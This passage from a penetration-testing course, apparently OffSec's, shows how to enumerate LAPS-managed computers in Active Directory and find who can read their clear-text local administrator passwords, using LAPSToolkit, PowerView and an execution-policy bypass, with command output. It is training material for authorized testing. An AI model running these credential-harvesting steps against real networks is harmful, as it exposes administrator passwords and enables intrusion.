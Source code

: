 If LAPS is in use, we should try to gain access to the clear text passwords in Active Directory as part of a penetration test. While Microsoft has released a PowerShell toolkit to query LAPS, it is not typically installed on a workstation.

Instead, we can use the _LAPSToolkit_[9](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_502-9) PowerShell script, which is essentially a wrapper script around the _PowerView_[10](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_502-10) Active Directory enumeration PowerShell script.

For example, we'll invoke the Get-LAPSComputers method from LAPSToolkit to list all computers that are set up with LAPS and display the hostname, the clear text password, and the expiration time:

Remember when starting a PowerShell prompt, we must supply the _-exec bypass_ option to disable the default ExecutionPolicy setting.

```
PS C:\Tools> Import-Module .\LAPSToolkit.ps1

PS C:\Tools> Get-LAPSComputers

ComputerName       Password Expiration
------------       -------- ----------
appsrv01.corp1.com          12/14/2019 04:18:03
```

> Listing 12 - Using Get-LAPSComputers to dump LAPS attributes

Although we have discovered the appsrv01 server, which is managed by LAPS, we cannot view the clear text password. In this case, our current user account does not have permissions to read the password, so it is returned as empty.

We can use the Find-LAPSDelegatedGroups method of LAPSToolkit to discover groups that can fully enumerate the LAPS data:

```
PS C:\Tools> Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Corp1Admin,OU=Corp1Users,DC=corp1,DC=com       corp1\LAPS Password Readers
```

> Listing 13 - Enumerating LAPS delegated groups

From the output in Listing 13, we find that members of the custom _LAPS Password Readers_ group have read permissions.[11](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_502-11)

Next, we can use PowerView to enumerate members of that group through the Get-NetGroupMember method, supplying the -GroupName option to specify the group name:

```
PS C:\Tools> Get-NetGroupMember -GroupName "LAPS Password Readers"

GroupDomain  : corp1.com
GroupName    : LAPS Password Readers
MemberDomain : corp1.com
MemberName   : jeff
MemberSid    : S-1-5-21-1364860144-3811088588-1134232237-1110
IsGroup      : False
MemberDN     : CN=jeff,OU=Corp1Admin,OU=Corp1Users,DC=corp1,DC=com

GroupDomain  : corp1.com
GroupName    : LAPS Password Readers
MemberDomain : corp1.com
MemberName   : admin
MemberSid    : S-1-5-21-1364860144-3811088588-1134232237-1107
IsGroup      : False
MemberDN     : CN=admin,OU=Corp1Admin,OU=Corp1Users,DC=corp1,DC=com
```
